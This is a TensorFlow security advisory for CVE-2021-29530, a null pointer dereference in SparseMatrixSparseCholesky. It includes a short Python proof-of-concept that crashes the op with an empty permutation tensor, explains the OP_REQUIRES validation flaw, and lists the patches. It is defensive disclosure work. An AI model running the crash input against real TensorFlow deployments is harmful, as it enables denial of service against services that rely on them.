 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-018.md
## TFSA-2021-018: Invalid validation in `SparseMatrixSparseCholesky`

### CVE Number
CVE-2021-29530

### Impact
An attacker can trigger a null pointer dereference by providing an invalid
`permutation` to `tf.raw_ops.SparseMatrixSparseCholesky`:

```python
import tensorflow as tf
import numpy as np
from tensorflow.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([-10.0], dtype=np.float32)
dense_shape = [1, 1]
st = tf.SparseTensor(indices_array, value_array, dense_shape)

input = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)

permutation = tf.constant([], shape=[1, 0], dtype=tf.int32)

tf.raw_ops.SparseMatrixSparseCholesky(input=input, permutation=permutation, type=tf.float32)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/kernels/sparse/sparse_cholesky_op.cc#L85-L86) fails to properly validate the input arguments:

```cc
void Compute(OpKernelContext* ctx) final {
  ...
  const Tensor& input_permutation_indices = ctx->input(1);
  ...
  ValidateInputs(ctx, *input_matrix, input_permutation_indices, &batch_size, &num_rows);
  ...
}

void ValidateInputs(OpKernelContext* ctx,
    const CSRSparseMatrix& sparse_matrix,
    const Tensor& permutation_indices, int* batch_size,
    int64* num_rows) {
  OP_REQUIRES(ctx, sparse_matrix.dtype() == DataTypeToEnum<T>::value, ...)
  ...
}
```

Although `ValidateInputs` is called and there are checks in the body of this
function, the code proceeds to the next line in `ValidateInputs` since
[`OP_REQUIRES`](https://github.com/tensorflow/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/framework/op_requires.h#L41-L48)
is a macro that only exits the current function.

```cc
#define OP_REQUIRES(CTX, EXP, STATUS)                     \
  do {                                                    \
    if (!TF_PREDICT_TRUE(EXP)) {                          \
      CheckNotInComputeAsync((CTX), "OP_REQUIRES_ASYNC"); \
      (CTX)->CtxFailure(__FILE__, __LINE__, (STATUS));    \
      return;                                             \
    }                                                     \
  } while (0)
```

Thus, the first validation condition that fails in `ValidateInputs` will cause
an early return from that function. However, the caller will continue execution
from the next line. The fix is to either explicitly check `context->status()`
or to convert `ValidateInputs` to return a `Status`.

### Patches
We have patched the issue in GitHub commit
[e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd](https://github.com/tensorflow/tensorflow/commit/e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
